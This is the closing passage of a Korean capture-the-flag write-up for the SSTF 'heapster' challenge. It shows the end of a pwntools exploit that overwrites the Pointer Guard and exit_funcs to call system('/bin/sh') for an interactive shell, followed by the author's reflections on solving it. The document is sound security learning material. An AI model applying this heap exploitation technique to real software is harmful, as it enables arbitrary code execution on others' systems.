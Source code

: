 ```python

overwrite_data(fs_base+0x30, p64(0)*2, 30,31) #overwrite Pointer Guard
overwrite_data(exit_funcs-8, p64(fake_exit_function_list)*2, 28,29)

add(8, p64(1) + p64(4))# idx, flavor
add(1, p64(rol(libc_base+l.sym['system'], 0x11, word_size=64)) + p64(heap_base + 0x2a0))

add(0, b'/bin/sh')

cmd(0)

p.interactive()
```

# Fini

제가 이번 SSTF에 참가해서 푼 문제는 heapster 딱 하나였습니다... libc의 got를 overwrite할 생각은 하지도 못했고 같은 팀원 분이 exit_funcs를 덮어쓰는 익스플로잇 방법이 있다고 알려주셔서 찾아서 공부하고 시행착오를 좀 거치면서 장장 8시간 동안 풀었습니다 ~~문제 하나 풀고 그렇게 많은 사람들한테 축하 받은 건 처음이었습니다~~ 제가 유독 푸는데 좀 오래 걸리긴 했지만 좀 어려운 문제는 맞았는지 저희 팀을 포함해 총 10개 팀이 heapster를 해결했더군요. 이 글을 읽어주시는 분들은 저처럼 삽질하지 않고 libc의 got와 exit_funcs를 overwrite해서 익스플로잇하는 방법을 알아가시길 바라며 저의 첫 글을 마무리하겠습니다. 긴 글을 읽어주셔서 감사하고 앞으로도 잘 부탁드립니다!